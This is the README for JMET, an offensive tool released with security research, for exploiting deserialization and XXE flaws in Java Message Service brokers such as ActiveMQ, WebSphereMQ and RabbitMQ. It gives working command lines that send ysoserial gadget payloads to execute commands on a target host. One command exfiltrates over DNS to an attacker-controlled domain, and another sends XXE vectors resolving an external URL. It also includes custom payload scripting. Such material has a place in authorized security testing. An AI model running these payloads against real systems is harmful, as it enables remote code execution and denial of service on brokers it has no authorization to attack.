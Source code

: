 # JMET
The Java Message Exploitation Tool

       ____  _______________
      / /  |/  / ____/_  __/
 __  / / /|_/ / __/   / /   
/ /_/ / /  / / /___  / /    
\____/_/  /_/_____/ /_/


https://github.com/matthiaskaiser/jmet

Description
JMET was released at Blackhat USA 2016 and is an outcome of Code White's research effort presented in the talk "Pwning Your Java Messaging With Deserialization Vulnerabilities". The goal of JMET is to make the exploitation of the Java Message Service (JMS) easy. In the talk more than 12 JMS client implementations where shown, vulnerable to deserialization attacks. The specific deserialization vulnerabilities were found in ObjectMessage implementations (classes implementing javax.jms.ObjectMessage). The following more or less complete list shows the vulnerable JMS broker client libraries:

Apache ActiveMQ
Redhat/Apache HornetQ
Oracle OpenMQ
IBM WebSphereMQ
Oracle Weblogic
Pivotal RabbitMQ
IBM MessageSight
IIT Software SwiftMQ
Apache ActiveMQ Artemis
Apache QPID JMS
Apache QPID Client
Amazon SQS Java Messaging
For creating gadget payloads JMET makes use of Chris Frohoffs' Ysoserial.

Supprted JMS client libraries
Apache ActiveMQ
Redhat/Apache HornetQ
Oracle OpenMQ
IBM WebSphereMQ
Oracle Weblogic
Pivotal RabbitMQ
IBM MessageSight
IIT Software SwiftMQ
Apache ActiveMQ Artemis
Apache QPID JMS
Apache QPID Client
Amazon SQS Java Messaging
Dependencies
JMET depends on a lot of libraries :(. For details see the maven pom file.

Installation
Just download jmet-0.1.0-all.jar from here or built it (see "Build instructions").

Usage
$ java -jar target/jmet-0.1.0-all.jar
ERROR d.c.j.JMET [main] Misconfiguration: Missing required options: [-C Custom script exploitation mode, -Y Deser exploitation mode, -X XXE exploitation mode], [-T topic name, -Q queue name], I
usage: jmet [host] [port]
 -C,--Custom <scriptname>         Custom script exploitation mode
 -f,--filter <scriptname>         filter script
 -I,--impl <arg>                  ActiveMQ| Artemis| WebSphereMQ| Qpid10|
                                  Qpid09| HornetQ| SwiftMQ| RabbitMQ|
                                  OpenMQ
 -pw,--password <pass>            password for authentication
 -Q,--Queue <name>                queue name
 -s,--substitute                  Substituation mode: Use ��� to pass
                                  ysoserial payload name to CMD
 -T,--Topic <name>                topic name
 -u,--user <id>                   user for authentication
 -v,--verbose                     Running verbose mode
 -X,--XXE <URL>                   XXE exploitation mode
 -Xp,--xxepayload <payloadname>   Optional: XXE Payload to use EXTERNAL|
                                  PARAMATER| DTD
 -Y,--ysoserial <CMD>             Deser exploitation mode
 -Yp,--payload <payloadname>      Optional: Ysoserial Payload to use
                                  BeanShell1| CommonsBeanutils1|
                                  CommonsCollections1|
                                  CommonsCollections2|
                                  CommonsCollections3|
                                  CommonsCollections4|
                                  CommonsCollections5| Groovy1|
                                  Hibernate1| Hibernate2| Jdk7u21| JSON1|
                                  ROME| Spring1| Spring2
 -Zc,--channel <channel>          channel name (only WebSphereMQ)
 -Zq,--queuemanager <name>        queue manager name (only WebSphereMQ)
 -Zv,--vhost <name>               vhost name (only AMQP-Brokers:
                                  RabbitMQ|QPid09|QPid10)
Gadget exploitation mode

Create gadgets for executing "xterm" and send them all to queue "event". As implementation ActiveMQ is choosen, the target system is "jmstarget" listening on port 61616.

$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y xterm jmstarget 61616
To find out which gadget was executed you can use the "substitution"-mode with an out-of-band channel like DNS. To pass the gadget name to your command use the "���" string which then gets substituted with the gadget name.

$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "nslookup ���.yourdomain.com" jmstarget 61616
XXE exploitation mode

The XXE exploition mode requires to specify an URL to be resolved as an external entity. The XXE vectors are sent inside a TextMessage.

$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -X http://192.168.85.148:8081 jmstarget 61616
Custom exploitation mode

The custom exploitation mode allows to run a custom JavaScript script. The purpose of this mode is to support different serialization formats (JSON, etc.) and custom payloads.

The following example script uses the XML serialization library XStream. The String "Object" is serialized to XML and put into an TextMessage using the de.codewhite.jmet.target.JMSTarget.addTextPayload(String payloadName, String payloadText)-method. Required libraries need to be put into the "external"-directory of JMET.

function payload(target){

        var imports = new JavaImporter(java.io, java.lang, com.thoughtworks.xstream);
        with (imports) {

            xstream = new XStream();
            target.addTextPayload("test",xstream.toXML("Object"));

        }
}
Filter scripts

Filter scripts are used for modifying "javax.jms.Message"-instances before sent to the target destination. The following Javascript changes the JMSPriority of every message, prints out a string und returns the modified message back.

function filter(message){

    message.setJMSPriority(3);
    print("Changed Priority")
    return message;

}
Build instructions
Please put the following libraries of the commercial brokers into a directory of your choice (e.g. DIR).

com.ibm.mq.allclient.jar (WebSphere MQ)
amqp.jar (SwiftMQ)
jms.jar (SwiftMQ)
swiftmq.jar (SwiftMQ)
Then invoke maven with the property "commercial" set to your path.

$ export MAVEN_OPTS=-Xss10m
$ mvn clean compile assembly:single -Dcommerical=DIR
If you don't want to use the commercial brokers at all you can just delete the following files:

src/main/java/de/codewhite/jmet/target/impl/WebSphereMQTarget.java
src/main/java/de/codewhite/jmet/target/impl/SwiftMQTarget.java
$ export MAVEN_OPTS=-Xss10m
$ mvn clean compile assembly:single
Disclaimer
JMET is a proof-of-concept tool for blackbox testing of JMS destinations. Please use this tool with care and only when authorized. Be aware that sending an invalid message to a JMS destination might result in a denial-of-service state (DOS) of the target system. You have been warned !!!

License
JMET is released under The MIT License (MIT).